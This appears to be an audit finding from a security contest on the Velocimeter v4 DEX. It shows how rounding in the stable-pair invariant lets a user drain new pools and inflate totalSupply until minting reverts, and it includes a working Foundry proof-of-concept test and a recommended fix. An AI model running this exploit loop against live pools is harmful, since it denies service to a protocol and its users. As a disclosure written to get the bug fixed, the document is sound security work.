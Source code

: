 Dizzy Fuzzy Nuthatch

High

# User can DoS new stable pairs by minting and swapping small amounts

## Summary 

Right after, a stable pool creation, a user can mint small amount to make `Pair::_k()` round down to 0, swap back leaving only small amounts in the reserve, and then repeat, until totalSupply is close/equal to `uint256().max` 

## Vulnereability Details

Currently, a stable pair is calculated using the x3y + y3x formula. After a swap, we compare the constant k against the new balances to ensure the swap is healthy.

```solidity
 function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = (x * 1e18) / decimals0;
            uint _y = (y * 1e18) / decimals1;
            uint _a = (_x * _y) / 1e18;
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);

            return (_a * _b) / 1e18; // x3y+y3x >= k
        } else {
            return x * y; // xy >= k
        }
    }
```

When calculating a = (x * y) / 1e18, rounding errors can make it equal to zero if x * y is less than 1e18. 
This can set the stable pool's invariant `_k()` to zero, allowing traders to empty the pool. Later, minting can cause totalSupply to grow very quickly because the reserves are so small.

```solidity
function mint(address to) external lock returns (uint liquidity) {
        (uint _reserve0, uint _reserve1) = (reserve0, reserve1);
        uint _balance0 = IERC20(token0).balanceOf(address(this));
        uint _balance1 = IERC20(token1).balanceOf(address(this));
        uint _amount0 = _balance0 - _reserve0;
        uint _amount1 = _balance1 - _reserve1;

        uint _totalSupply = totalSupply; // gas savings, must be defined here since totalSupply can update in _mintFee
        if (_totalSupply == 0) {
            liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
            _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
        } else {
          //@review - If the reserves are dust amounts, we can grow out the totalSupply exponentially until it reaches uint256().max
            liquidity = Math.min(
                (_amount0 * _totalSupply) / _reserve0,
                (_amount1 * _totalSupply) / _reserve1
            );
        }
        require(liquidity > 0, "ILM"); // Pair: INSUFFICIENT_LIQUIDITY_MINTED
        _mint(to, liquidity);

        _update(_balance0, _balance1, _reserve0, _reserve1);
        emit Mint(msg.sender, _amount0, _amount1);
    }
```

## Proof of Concept

Paste this test inside of `OptionTokenV4.t.sol`.

```solidity
 
    function testDoSPair() public {
        address governor = voter.governor();
        vm.prank(governor, governor);
        Pair pair = Pair(factory.createPair(address(DAI), address(FRAX), true));

        for (uint i = 0; i < 10; i++) {
            DAI.transfer(address(pair), 10_000_000);
            FRAX.transfer(address(pair), 10_000_000);

            uint liquidity = pair.mint(address(this));

            {
                uint fraxAmount = FRAX.balanceOf(address(pair));
                uint daiAmount = DAI.balanceOf(address(pair));

                DAI.transfer(address(pair), 1);
                uint amount0;
                uint amount1;

                (amount0, amount1) = address(DAI) < address(FRAX)
                    ? (uint(0), fraxAmount - 1)
                    : (fraxAmount - 1, uint(0));

                pair.swap(amount0, amount1, address(this), new bytes(0));
                FRAX.transfer(address(pair), 1);

                (amount0, amount1) = address(DAI) < address(FRAX)
                    ? (daiAmount, uint(0))
                    : (amount1, daiAmount);

                pair.swap(amount0, amount1, address(this), new bytes(0));
            }
        }
        
        DAI.transfer(address(pair), 1 ether);
        FRAX.transfer(address(pair), 1 ether);

        vm.expectRevert();
        pair.mint(address(this));
    }
```

## Impact

Complete DoS of any new stable pair created by the factory.

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/tree/main/v4-contracts/contracts/Pair.sol#L258-L260
https://github.com/sherlock-audit/2024-06-velocimeter/tree/main/v4-contracts/contracts/Pair.sol#L403-L413

## Tool Used

Manual review

## Recommendation

Employ a variable `MIN_K` for stable pairs and check agains it after minting the first supply.
